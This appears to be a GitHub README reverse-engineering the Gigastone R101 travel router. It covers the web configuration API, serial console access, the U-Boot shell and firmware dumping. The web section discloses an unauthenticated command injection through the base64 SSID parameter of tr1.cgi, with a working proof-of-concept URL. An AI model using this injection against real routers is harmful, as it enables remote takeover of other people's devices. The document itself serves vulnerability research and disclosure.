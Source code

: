 # RE of Gigastone R101 Mini Wireless Router / Wireless Travel Router

The R101 is a cheap wireless router sold by Gigastone.
Gigastone is a electronics brand based in Taiwan.

[Amazon link1.](https://www.amazon.com/Gigastone-GS-TR1-R-Wireless-Travel-Router/dp/B01DR04V90)
[Amazon link2.](https://www.amazon.com/Gigastone-TR1-Wireless-Extension-Processor/dp/B0BVTYYDQH/)

![41-czovIRFL _AC_SX522_](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/36e0f064-4b5e-4bf8-bdb5-3b70db17efa8)

# Web interface

After logging in with the default credentials, I watched network traffic from dev tools while setting the SSID.
It seems the device uses `tr1.cgi?cgi=2` for configuration.
The device uses base64 to send the SSID.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4b1597ec-1484-4e59-98e0-f050da488c68)

This field has command injection, and we can use the new SSID as the commands output.

SSID is set to base64 of string `` `echo command injection` `` (`YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==`)
```
http://<ROUTER_IP>/cgi-bin/tr1.cgi?cgi=2&mode=0&ssid=YGVjaG8gY29tbWFuZCBpbmplY3Rpb25gCg==&ht=0&channel=0&dhcp=50&static=0&ip=0.0.0.0&subnet=0.0.0.0&gw=0.0.0.0&pppmode=0&pppusr=bnVsbA==&ppppwd=bnVsbA==&pwd=
```

This API seems to be hittable from a remote IP, when not logged in (even with default password changed).

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/4346f60e-8f03-4636-a46f-ae87b2d0490c)

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/b886fa58-2fd6-488c-8a4e-b212a7ff1b4d)

# Hardware/Serial

We can find Gigastones filing for R101 in the [FCC ID](https://fccid.io/PLE-TRR1011) database

Looking at internal photos from FCCID, it looks like there's a serial port in the corner opposite the power button.

![image](https://github.com/skyler-ferrante/Gigastone-RE/assets/24577503/433ee296-e97e-460f-9b0a-e1deccdd58d3)

Soldering to the board and watching for serial confirms this.
I used a "USB to TTL" adapter to get serial from USB, and Putty to act as my terminal.
Using a multimeter in continuity mode showed the leftmost pin was ground.

Watching boot with baud set to 115200
```
U-Boot 1.1.4-ga519b4f0-dirtyOct  9 201317:21:10

AP121 (ar9331) U-boot

DRAM:  16 MB
Flash Manuf Id 0x0, DeviceId0 0x0, DeviceId1 0x0
flash size 4194304, sector count = 64
Flash:  4 MB
Using default environment

In:    serial
Out:   serial
Err:   serial
Net:   ag7240_enet_initialize...
No valid address in Flash. Using fixed address
No valid address in Flash. Using fixed address
: cfg1 0x5 cfg2 0x7114
eth0: 00:03:7f:09:0b:ad
eth0 up
: cfg1 0xf cfg2 0x7214
eth1: 00:03:7f:09:0b:ad
athrs26_reg_init_lan
ATHRS26: resetting s26
ATHRS26: s26 reset done
eth1 up
eth0, eth1
Hit any key to stop autoboot:  0
## Booting image at 9f300000 ...
   Image Name:   Linux Kernel Image
   Created:      2014-02-26   4:14:51 UTC
   Image Type:   MIPS Linux Kernel Image (lzma compressed)
   Data Size:    905965 Bytes = 884.7 kB
   Load Address: 80002000
   Entry Point:  801ea0e0
   Verifying Checksum at 0x9f300040 ...OK
   Uncompressing Kernel Image ... OK

Starting kernel ▒ɩ
                  ▒▒▒▒▒Zk▒*▒3▒  ▒▒▒YW▒▒
```

Watching boot with baud set to 128000
```
`@@▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒▒▒`▒▒`p▒y▒s`ppdp@^nN▒▒
`@@▒▒▒▒▒▒▒▒▒▒▒▒▒`▒▒▒▒▒▒@▒▒▒▒▒@^nN@▒▒
▒▒▒▒▒▒▒▒@▒▒▒▒▒▒ ...

Booting AR9330(Hornet)...
```

Hitting a key during boot brings us to a UBOOT shell
```
TR1> help
reset   - Perform RESET of the CPU
?       - alias for 'help'
boot    - boot default, i.e., run 'bootcmd'
bootd   - boot default, i.e., run 'bootcmd'
bootm   - boot application image from memory
cp      - memory copy
dhcp    - invoke DHCP client to obtain IP/boot params
erase   - erase FLASH memory
help    - print online help
httpd   - start webserver
md      - memory display
mm      - memory modify (auto-incrementing)
mtest   - simple RAM test
mw      - memory write (fill)
nm      - memory modify (constant address)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
progmac - Set ethernet MAC addresses
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
setenv  - set environment variables
tftpboot- boot image via network using TFTP protocol
version - print monitor version
TR1>
TR1> printenv
bootargs=console=ttyS0,115200 root=31:02 rootfstype=squashfs init=/sbin/init mtdparts=ar7240-nor0:256k(u-boot),64k(u-boot-env),2752k(rootfs),896k(uImage),64k(NVRAM),64k(ART)
bootcmd=bootm 0x9f300000
bootdelay=1
baudrate=115200
ethaddr=0x00:0xaa:0xbb:0xcc:0xdd:0xee
ipaddr=192.168.16.254
serverip=192.168.16.10
stdin=serial
stdout=serial
stderr=serial
ethact=eth0
nc=setenv stdin nc;setenv stdout nc;setenv stderr serial
serial=setenv stdin serial;setenv stdout serial;setenv stderr serial
ncip=192.168.16.10
```

From here we can dump memory with `md`, and convert it into raw binary. I personally like to use python, with a quick script like below.
```
#!/bin/python3

import sys

if len(sys.argv) != 2:
    print("GIVE ME FILE NOW")
    sys.exit(1)

with open(sys.argv[1]) as open_file:
    with open("output.bin", "wb") as out_file:
        for line in open_file:
            line = line.strip()

            tokens = line.split(" ")
            byte_str = ''.join(tokens[1:6])
            print(byte_str)

            print(tokens)
            byte_o = bytes.fromhex(byte_str)
            out_file.write(byte_o)
```

From memory address `0x9f300000` to `0x9f3dd320` there seems to be a Linux Kernel Image.
```
output.bin: u-boot legacy uImage, Linux Kernel Image, Linux/MIPS, OS Kernel Image (lzma), 905965 bytes, Wed Feb 26 04:14:51 2014, Load Address: 0x80002000, Entry Point: 0x801EA0E0, Header CRC: 0x0F2D2E50, Data CRC: 0x85246A37
```
